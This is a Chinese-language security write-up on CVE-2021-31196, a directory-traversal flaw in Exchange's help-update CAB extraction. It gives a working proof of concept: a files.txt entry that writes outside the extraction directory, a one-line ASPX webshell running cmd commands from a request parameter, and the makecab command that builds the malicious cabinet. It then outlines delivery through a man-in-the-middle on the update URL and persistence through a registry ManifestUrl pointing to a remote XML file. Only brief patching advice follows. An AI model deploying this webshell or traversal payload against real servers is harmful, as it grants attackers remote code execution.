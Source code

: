对于`int result = EmbeddedCabWrapper.ExtractCabFiles(this.helpUpdater.LocalCabinetPath, this.helpUpdater.LocalCabinetExtractionTargetPath, filter, embedded);`，用于提取CAB文件的内容

`ExtractCabFiles`在提取之前没有对文件路径进行判断，这也是CVE-2021-31196的漏洞所在。如果传入`../`可以进行目录穿越，最终实现任意文件写入

关于CAB文件的制作，可以参照原文中的方法：

files.txt的内容如下：

```
"poc.aspx" "../../../../../../../inetpub/wwwroot/aspnet_client/poc.aspx"
```

poc.aspx的内容如下：

```
<%=System.Diagnostics.Process.Start("cmd", Request["c"])%>
```

命令行下执行命令:

```
makecab /d "CabinetName1=poc.cab" /f files.txt
```

生成最终的poc.cab

## 0x03 利用思路
---

### 1.通过中间人攻击的方式劫持`http://go.microsoft.com/fwlink/p/?LinkId=287244`

POC可参考原文

当管理用户在Exchange Management Shell中运行`Update-ExchangeHelp`或者`Update-ExchangeHelp -Force`命令时，Exchange服务器将会在`C:\inetpub\wwwroot\aspnet_client`写入Webshell

### 2.修改注册表，实现持久化利用

注册表位置：`HKLM\SOFTWARE\Microsoft\ExchangeServer\v15\UpdateExchangeHelp`

新建注册表项，名称为`ManifestUrl`，类型为`REG_SZ`，内容为远程xml地址，例如`http://192.168.1.3/poc.xml`

## 0x04 防御建议
---

1.安装补丁

参考资料：

https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-31206

2.避免网络被劫持

## 0x05 小结
---

CVE-2021-31196的利用条件虽然相对来说多一些，但是在特定环境下也有利用的可能，需要及时更新补丁。



---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)





